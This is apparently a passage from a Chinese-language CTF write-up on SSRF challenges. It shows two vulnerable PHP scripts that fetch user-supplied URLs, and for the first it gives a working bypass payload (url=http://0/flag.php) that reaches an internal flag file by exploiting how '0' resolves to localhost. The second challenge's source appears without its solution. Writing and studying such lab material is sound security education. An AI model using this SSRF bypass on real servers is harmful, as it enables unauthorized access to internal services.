 ```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

这回更绝，长度不大于 3 . 

0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0

payload:

```
url=http://0/flag.php
```

## web357

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?> scheme
```
